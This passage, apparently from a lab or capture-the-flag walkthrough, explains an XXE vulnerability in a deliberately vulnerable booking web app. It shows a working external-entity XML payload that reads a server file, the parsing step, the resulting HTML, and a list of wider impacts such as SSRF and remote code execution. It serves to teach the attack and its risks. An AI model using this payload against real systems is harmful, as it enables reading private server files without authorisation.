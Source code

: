    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
        <!ENTITY secret SYSTEM "file:///secret.txt">
    ]>
    <booking>
        <name>John Doe</name>
        <details>&secret;</details>
    </booking>
    ```

    - **Explanation:**
        - **`<!DOCTYPE root [ ... ]>`:** Defines the Document Type Definition (DTD) for the XML.
        - **`<!ENTITY secret SYSTEM "file:///secret.txt">`:** Declares an external entity named `secret` that points to the `secret.txt` file on the server.

2. **Submitting the Payload:**
    - The attacker submits the above XML payload in the **Booking Details** textarea on the `/booking` page.

3. **Server Processing:**
    - The application parses the XML with `resolve_entities=True`, which processes the external entity `&secret;`.
    - The `&secret;` entity is replaced with the contents of `secret.txt`, which contains:
        ```
        Congratulations! You have successfully exploited the XXE vulnerability.
        ```

4. **Response to the Attacker:**
    - The application reconstructs the XML back into a string and displays it within the `<pre>` tags. Since the `booking_info` now contains the word `"Congratulations"`, the application appends a success message.
    - The attacker sees the contents of `secret.txt` displayed on the webpage, confirming the successful exploitation.

#### **Resulting HTML Response:**

```html
<h1>Booking Received</h1>
<p>Your booking details:</p>
<pre>
<booking>
    <name>John Doe</name>
    <details>Congratulations! You have successfully exploited the XXE vulnerability.</details>
</booking>
</pre>
<h2>Congratulations! You have successfully exploited the XXE vulnerability.</h2>
```

### **3. Potential Impact of XXE Vulnerabilities**

Beyond reading sensitive files, XXE vulnerabilities can lead to:

- **Server-Side Request Forgery (SSRF):** Allowing attackers to make requests from the server to internal systems.
- **Denial of Service (DoS):** Through entities that cause parser exhaustion.
- **Data Exfiltration:** Extracting sensitive data from the server.
- **Remote Code Execution (RCE):** In certain configurations, leading to full system compromise.
